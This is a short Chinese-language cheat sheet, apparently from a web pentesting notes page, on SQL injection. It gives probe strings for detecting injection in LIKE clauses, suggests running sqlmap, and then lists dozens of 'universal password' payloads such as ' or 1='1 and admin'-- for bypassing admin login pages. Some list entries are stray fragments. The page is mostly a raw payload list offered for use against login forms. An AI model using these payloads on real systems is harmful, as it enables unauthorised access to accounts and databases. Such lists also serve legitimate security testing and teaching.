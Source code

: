 ```
select * from tables where id like '%darkid%';
```

判断是否存在漏洞

```
'and 1=1 and '%'='
%' and 1=1--'
%' and 1=1 and '%'='
```

平常很少见，如果遇到了可以用sqlmap跑

## 万能密码

后台登录时可以直接测试万能密码

```
' or 1='1
'or'='or'
admin
admin'--
admin' or 4=4--
admin' or '1'='1'--
admin888
"or "a"="a
admin' or 2=2#
a' having 1=1#
a' having 1=1--
admin' or '2'='2
')or('a'='a
or 4=4--
c
a'or' 4=4--
"or 4=4--
'or'a'='a
"or"="a'='a
'or''='
'or'='or'
1 or '1'='1'=1
1 or '1'='1' or 4=4
'OR 4=4%00
"or 4=4%00
'xor
admin' UNION Select 1,1,1 FROM admin Where ''='
1
-1%cf' union select 1,1,1 as password,1,1,1 %23
1
17..admin' or 'a'='a 密码随便
'or'='or'
'or 4=4/*
something
' OR '1'='1
1'or'1'='1
admin' OR 4=4/*
1'or'1'='1
```
